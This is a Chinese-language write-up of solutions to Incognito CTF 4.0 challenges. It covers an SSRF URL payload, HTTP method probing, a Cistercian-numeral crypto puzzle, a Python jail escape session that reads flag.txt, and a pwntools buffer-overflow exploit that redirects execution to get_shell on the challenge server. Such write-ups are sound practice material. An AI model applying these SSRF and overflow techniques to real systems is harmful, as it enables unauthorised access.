 ```yaml
---
title: Incognito CTF 4.0
date: 2023-02-18 20:18:45
tags: ['CTF']
categories: ['筆記']
description: Incognito CTF 解題紀錄
---
```


## Web

### Get flag 1
SSRF `?url=http://0.0.0.0:9001/flag.txt`

### Low on options
根據題目提示用OPTIONS request得到`As I said, I am low on options...`。 ~~一句廢話~~
![](./loo-options.png)
索性把所有method全部試一次，PROPFIND request拿到flag。
![](./loo-propfind.png)

## Crypto

### Ancient
拿到一個缺header的png檔，將header補上後得到有象形文字的圖片，以圖搜圖查到是十三世紀的一種記數方式，用[此網站](https://www.dcode.fr/cistercian-numbers)轉成數字對照Ascii table便可拿到flag。
![](./challenge.png)

## Pyjail

### The only jail
nc進去發現是一個偽裝過的Python環境，有過濾一些像斜線、反斜線、大括號等字元，用os的path join便可湊出路徑用讀取flag。
```python
Welcome to the IIITL Jail! Escape if you can
jail> import os
jail> print(os.listdir())     
['opt', 'srv', 'tmp', 'lib', 'bin', 'media', 'lib64', 'dev', 'sys', 'home', 'libx32', 'root', 'var', 'run', 'etc', 'sbin', 'lib32', 'usr', 'boot', 'mnt', 'proc', '.dockerenv', 'start.sh']
jail> print(os.listdir("home"))
['ctf']
jail> path = os.path.join("home", "ctf")
jail> print(os.listdir(path))
['.bash_logout', '.bashrc', '.profile', 'flag.txt', 'jail.py']
jail> path = os.path.join(path, "flag.txt")
jail> flag = open(path)
jail> print(flag.read())
ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}
jail> 
```

## Rev

### Meow
flag藏在.rodata

## Pwn

### Baby Flow
checksec什麼都沒開，BOF把return address置換成get_shell的即可。
```python
from pwn import *

#conn = process('./babyFlow')
conn = remote('143.198.219.171', 5000)

payload = b'A'*20 + p32(0x80491fc)

conn.recvuntil('can you pass me?\n')

conn.sendline(payload)

conn.interactive()
```
